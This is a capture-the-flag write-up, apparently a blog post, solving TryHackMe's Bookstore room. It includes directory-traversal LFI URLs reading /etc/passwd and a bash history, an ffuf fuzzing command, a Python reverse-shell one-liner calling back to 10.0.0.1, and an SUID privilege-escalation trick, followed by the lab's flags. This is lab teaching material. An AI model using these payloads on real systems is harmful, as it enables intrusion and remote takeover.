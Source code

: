 ```yaml
---
layout: post
title:  "THM: Bookstore"
date:   2020-12-01 20:00:00 +1100
category: hacking
---
```


## Introduction
*A Beginner level box with basic web enumeration and REST API Fuzzing.*

This is [Bookstore](https://tryhackme.com/room/bookstoreoc) from TryHackMe. The description implies it's easy, but it's medium rated which I think is a rating given by the THM testing crew.

## Ports
We've got SSH, HTTP and port 5000, which is:

>5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)

So more HTTP.

## HTTP
The way this is set up is that there is a regular page on port 80 (the bookstore), and an API on port 5000 that supplies information about the books in the collection. The Werkzeug console is available on port 5000 at */console* but it's locked with a PIN. We use an LFI on the API to read the PIN, and we get a hint that's it in our user's bash history:

>view-source:http://10.10.226.85/login.html  
>Still Working on this page will add the backend support soon, also the debugger pin is inside sid's bash history file

Now that's all well and good but hoo boy did I have some trouble finding the LFI.

## API/LFI
The API had the general form of:

>/api/v2/resources/books

Where there were endpoints at:

>/api/v2/resources/books/all  
>/api/v2/resources/books/random4 and  
>/api/v2/resources/books?author=etc

The LFI ultimately was at:

>http://10.10.108.141:5000/api/v1/resources/books?show=../../../../../../../../../../../home/sid/.bash_history

So the takeaway here was: if there's a version in your API endpoint, check older versions! Also I used **ffuf** for the first time:

``
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt:FUZZ -u http://10.10.108.141:5000/api/v1/resources/books?FUZZ=../../../../../../../../../../etc/passwd
``

## The rest
Once you've read the PIN you just unlock the console and launch a reverse shell:

``
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
``

This is [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) minus the 'python -c' at the start. 

Then we've got an SUID binary called *try-harder*. Dissasembly in Ghidra shows this:

{% highlight c %}
  local_18 = 0x5db3;
  puts("What\'s The Magic Number?!");
  __isoc99_scanf(&DAT_001008ee,&local_1c);
  local_14 = local_1c ^ 0x1116 ^ local_18;
  if (local_14 == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
  else {
    puts("Incorrect Try Harder");
  }
{% endhighlight %}

**0x5db3** is 23987 and **0x1116** is 4374; **0x5dcd21f4** is 1573724660. So we've got:

**something** XOR **4374** XOR **23987** = **1573724660**

**4374** XOR **23987** is **19621**, and **1573724660** XOR **19621** = **1573743953**

So that's our magic number:

{% highlight shell %}
Whats The Magic Number?!
1573743953
1573743953
root@bookstore:~# ls
ls
api.py  api-up.sh  books.db  try-harder  user.txt
root@bookstore:~# cat us
cat user.txt 
4ea65eb80ed441adb68246ddf7b964ab
root@bookstore:~# cd /root
cd /root
root@bookstore:/root# cat root.txt
cat root.txt
e29b05fba5b2a7e69c24a450893158e3
{% endhighlight %}

So yes privesc was very easy, finding the LFI not so easy (for me).
